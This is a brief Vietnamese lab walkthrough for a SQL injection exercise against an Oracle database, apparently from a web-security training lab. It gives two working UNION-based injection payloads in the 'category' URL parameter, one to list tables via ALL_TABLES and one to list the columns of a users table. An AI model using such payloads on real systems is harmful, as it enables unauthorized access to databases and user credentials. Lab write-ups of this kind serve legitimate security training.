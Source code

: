 ![](images/34.png)

Đề giống y hệt lab trước, thay database là Oracle. Chúng ta sẽ giải y hệt lab trước, thay `information_schema.tables` thành `all_tables` và `information_schema.columns` thành `all_tab_columns`

List danh sách bảng

`?category=Gifts'+UNION+SELECT+TABLE_NAME,NULL+FROM+ALL_TABLES--`

![](images/35.png)

Truy vấn bảng `USERS_OLQZGO`

`?category=Gifts'+UNION+SELECT+COLUMN_NAME,NULL+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_OLQZGO'--`
